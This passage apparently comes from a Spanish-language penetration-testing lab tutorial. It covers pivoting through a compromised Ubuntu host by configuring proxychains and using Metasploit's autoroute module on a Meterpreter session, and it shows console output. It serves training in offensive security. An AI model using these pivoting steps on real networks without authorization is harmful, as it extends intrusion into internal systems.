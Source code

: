 Una vez que hayamos iniciado el servidor SOCKS, procederemos a configurar ```proxychains``` para que dirija el tráfico de herramientas como Nmap a través de nuestro pivote establecido en el host Ubuntu ya comprometido. Si aún no se ha realizado, podemos añadir la siguiente línea al archivo proxychains.conf. Este archivo se encuentra comúnmente en la ruta ```/etc/proxychains.conf``` o ```/etc/proxychains4.conf```.

> socks4  127.0.0.1 9050 

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 1080
socks4  127.0.0.1 9050          
```

### Creación de rutas

Para concluir, es esencial indicar a nuestro módulo socks_proxy que dirija todo el tráfico mediante nuestra sesión en Meterpreter. Para lograrlo, utilizaremos el módulo ```post/multi/manage/autoroute``` de Metasploit. De esta forma, podremos agregar rutas para la subred 172.16.5.0 y así redirigir todo el tráfico que pase por proxychains.

```bash
msf6 auxiliary(server/socks_proxy) > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > sessions -i

Active sessions
===============

  Id  Name  Type                   Information           Connection
  --  ----  ----                   -----------           ----------
  5         shell sparc/bsd                              10.10.14.49:8080 -> 10.129.3.88:33520 (10.129.3.88)
  16        meterpreter x64/linux  ubuntu @ 10.129.3.88  10.10.14.49:8080 -> 10.129.3.88:34042 (10.129.3.88)

msf6 post(multi/manage/autoroute) > set SESSION 16
SESSION => 16
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.3.88
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.4.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```